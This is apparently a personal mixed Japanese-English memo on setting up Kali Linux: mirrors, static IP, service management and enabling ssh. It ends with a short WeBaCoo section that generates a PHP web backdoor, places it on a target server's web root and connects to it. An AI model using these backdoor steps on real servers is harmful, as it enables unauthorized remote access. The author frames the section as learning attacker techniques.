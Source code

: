 #インストール

##メモ

- プロキシ環境に持っていってインストールをしない！！ (理由: 自宅に帰ってからパッケージを入れようとしてもみつけられなくなった...)

<br><br><br>

#インストール後にミラーを追加する

https://forums.kali.org/showthread.php?72-Adding-Mirrors-After-Install

###Adding Mirrors After Install

 
If you didn't have an active or reliable internet connection during a hard disk install, you probably didn't get the mirrors added at that time. This will cause issues in the future when seeking new or updated software packages from the Kali repos. 

To add the sources:

1. Use your favored text editor to open /etc/apt/sources.list

2. Add the following two lines to your source list:
deb http://http.kali.org/kali kali main non-free contrib
deb-src http://http.kali.org/kali kali main non-free contrib

3. Save and you're good to go!

You can check that the sources have been added and are being used by loading Add/Remove Software from the Sys Tools menu and selecting System -> Software Sources.


#静的 IP アドレス

```
root@localhost:~# cat /etc/network/interfaces
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

source /etc/network/interfaces.d/*

# The loopback network interface
auto lo
iface lo inet loopback


auto eth0
iface eth0 inet static
address 192.168.141.153
netmask 255.255.255.0
gateway 192.168.141.2
dns-nameservers 192.168.141.2


root@localhost:~#

```

<br>
<br>
<br>

#controling services

##updating system.

```
# apt-get update
# apt-get upgrade
```

##show services.

```
# systemctl -t service
# systemctl -t service --all
```

##show status of service.

```
# systemctl is-enabled ssh
# systemctl is-enabled apache2
```

##show status of services.

- CentOS とかの chkconfig に相当

```
# sysv-rc-conf --list
```

##enabling or disabling services.

```
# sysv-rc-conf
```

```

l SysV Runlevel Config   -: stop service  =/+: start service  h: help  q: quit qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqk
x                                                                                                                         x
x service      1       2       3       4       5       0       6       S                                                  x
x ----------------------------------------------------------------------------                                            x
x anacron     [ ]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x apache2     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x arpwatch    [ ]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x atftpd      [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x avahi-dae$  [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x beef-xss    [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x binfmt-su$  [ ]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x bluetooth   [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]     [ ]                                                 x
x bootlogs    [X]     [X]     [X]     [X]     [X]     [ ]     [ ]     [ ]                                                 x
x                                                                                                                         x
mqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqj
lqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqk
x Use the arrow keys or mouse to move around.      ^n: next pg     ^p: prev pg                                            x
x                        space: toggle service on / off                                                                   x
mqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqj
```







##enabling service.

```
# systemctl enable ssh
# systemctl enable apache2
```

##starting/stoping service

````
# systemctl start ssh
# systemctl start apache2
```

<br>
<br>
<br>

#Kali Linux をインストールしたら

## ssh を使えるようにする

デフォルトでは ssh が起動していないため、```service ssh start``` する。なお、自動起動にするために ```systemctl enable ssh``` も。


<br>
<br>
<br>
#Webacoo

　ハッキングツール？ 攻撃者の手を知ることは重要。

##backdoor を作成する

```
$ webacoo -g -o backdoor.php

        WeBaCoo 0.2.3 - Web Backdoor Cookie Script-Kit
        Copyright (C) 2011-2012 Anestis Bechtsoudis
        { @anestisb | anestis@bechtsoudis.com | http(s)://bechtsoudis.com }

[+] Backdoor file "backdoor.php" created.

$ ls
backdoor.php
```

##backdoor.php を仕掛ける

　対象のサーバーに backdoor.php を配置する。たとえば ```/var/www/html/backdoor.php``` のように配置。

##Cracking

```
$ webacoo -t -u http://192.168.yyy.zzz/backdoor.php
```
